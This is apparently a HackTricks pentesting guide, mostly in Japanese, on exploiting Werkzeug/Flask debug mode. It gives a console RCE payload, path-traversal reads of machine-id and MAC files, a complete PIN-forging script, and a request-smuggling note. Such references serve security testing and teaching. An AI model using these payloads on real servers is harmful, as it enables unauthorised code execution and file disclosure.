 # Werkzeug / Flask デバッグ

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**脆弱性評価とペネトレーションテストのための即時利用可能なセットアップ**。20以上のツールと機能を使用して、どこからでも完全なペンテストを実行できます。リコンからレポーティングまで対応しています。私たちはペンテスターを置き換えるのではなく、彼らがより深く掘り下げ、シェルをポップし、楽しむための時間を取り戻すためにカスタムツール、検出およびエクスプロイトモジュールを開発しています。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## コンソール RCE

デバッグがアクティブな場合、`/console`にアクセスしてRCEを取得することを試みることができます。
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

インターネット上には、[これ](https://github.com/its-arun/Werkzeug-Debug-RCE)やmetasploitのものなど、いくつかのエクスプロイトがあります。

## ピン保護 - パス・トラバーサル

場合によっては、**`/console`** エンドポイントがピンで保護されることがあります。**ファイルトラバーサル脆弱性**がある場合、そのピンを生成するために必要なすべての情報を漏洩させることができます。

### Werkzeug コンソール PIN エクスプロイト

アプリでデバッグエラーページを強制的に表示させて、これを確認します:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
A message regarding the "console locked" scenario is encountered when attempting to access Werkzeug's debug interface, indicating a requirement for a PIN to unlock the console. The suggestion is made to exploit the console PIN by analyzing the PIN generation algorithm in Werkzeug’s debug initialization file (`__init__.py`). The PIN generation mechanism can be studied from the [**Werkzeug source code repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), though it is advised to procure the actual server code via a file traversal vulnerability due to potential version discrepancies.

コンソールPINを悪用するには、2つの変数セット、`probably_public_bits` と `private_bits` が必要です：

#### **`probably_public_bits`**

* **`username`**: Flaskセッションを開始したユーザーを指します。
* **`modname`**: 通常は `flask.app` と指定されます。
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: 一般的に **Flask** に解決されます。
* **`getattr(mod, '__file__', None)`**: Flaskディレクトリ内の `app.py` へのフルパスを表します（例： `/usr/local/lib/python3.5/dist-packages/flask/app.py`）。`app.py` が適用できない場合は、**`app.pyc` を試してください**。

#### **`private_bits`**

* **`uuid.getnode()`**: 現在のマシンのMACアドレスを取得し、`str(uuid.getnode())` がそれを10進数形式に変換します。
* **サーバーのMACアドレスを特定するには**、アプリで使用されているアクティブなネットワークインターフェース（例： `ens3`）を特定する必要があります。不明な場合は、**`/proc/net/arp` を漏洩させてデバイスIDを見つけ、次に **`/sys/class/net/<device id>/address`** からMACアドレスを抽出します。
* 16進数のMACアドレスを10進数に変換する方法は以下の通りです：

```python
# 例のMACアドレス: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: `/etc/machine-id` または `/proc/sys/kernel/random/boot_id` からのデータを、最後のスラッシュ（`/`）の後の `/proc/self/cgroup` の最初の行と連結します。

<details>

<summary>Code for `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

必要なデータをすべて収集した後、エクスプロイトスクリプトを実行してWerkzeugコンソールPINを生成できます。

必要なデータをすべて収集した後、エクスプロイトスクリプトを実行してWerkzeugコンソールPINを生成できます。スクリプトは、組み立てられた`probably_public_bits`と`private_bits`を使用してハッシュを作成し、その後、最終的なPINを生成するためにさらに処理されます。以下は、このプロセスを実行するためのPythonコードです：
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
このスクリプトは、連結されたビットをハッシュ化し、特定のソルト（`cookiesalt` と `pinsalt`）を追加し、出力をフォーマットすることでPINを生成します。`probably_public_bits` と `private_bits` の実際の値は、生成されたPINがWerkzeugコンソールで期待されるものと一致するように、ターゲットシステムから正確に取得する必要があることに注意してください。

{% hint style="success" %}
**古いバージョン**のWerkzeugを使用している場合は、**ハッシュアルゴリズムをsha1の代わりにmd5に変更**してみてください。
{% endhint %}

## Werkzeug Unicode文字

[**この問題**](https://github.com/pallets/werkzeug/issues/2833)で観察されたように、WerkzeugはヘッダーにUnicode文字が含まれるリクエストを閉じません。そして、[**この解説**](https://mizu.re/post/twisty-python)で説明されているように、これによりCL.0リクエストスムーギングの脆弱性が発生する可能性があります。

これは、Werkzeugではいくつかの**Unicode**文字を送信することが可能であり、それがサーバーを**壊す**ことになるからです。しかし、HTTP接続が**`Connection: keep-alive`**ヘッダーで作成された場合、リクエストのボディは読み取られず、接続はまだオープンのままとなり、リクエストの**ボディ**は**次のHTTPリクエスト**として扱われます。

## 自動化された悪用

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## 参考文献

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**脆弱性評価とペネトレーションテストのための即時利用可能なセットアップ**。20以上のツールと機能を使用して、どこからでも完全なペンテストを実行できます。私たちはペンテスターを置き換えるのではなく、彼らに深く掘り下げ、シェルをポップし、楽しむための時間を戻すためにカスタムツール、検出および悪用モジュールを開発します。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で**フォロー**してください 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
